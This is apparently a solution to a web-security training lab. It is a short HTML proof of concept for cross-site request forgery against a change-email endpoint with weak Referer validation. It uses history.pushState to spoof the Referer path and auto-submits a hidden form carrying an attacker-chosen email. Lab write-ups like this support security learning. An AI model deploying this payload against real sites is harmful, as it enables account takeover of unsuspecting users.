 # solution for CSRF with broken Referer validation

    <html>
      <body>
      <script>
    //used to bypass some weak referer checks to prevent CSRF
    history.pushState('','','/?0af00014037c6f50c05630e6003800c2.web-security-academy.net/my-account/change-email')
    function submitform(){
              document.forms["myForm"].submit();
            }
    </script>
        <form action="https://0af00014037c6f50c05630e6003800c2.web-security-academy.net/my-account/change-email" method="POST" name="myForm">
          <input type="hidden" name="email" value="sdfsdf&#64;23dfsdfsdf&#46;com" />
          <input type="submit" value="Submit request" />
        </form>
    <script>
    submitform()
    </script>
      </body>
    </html>
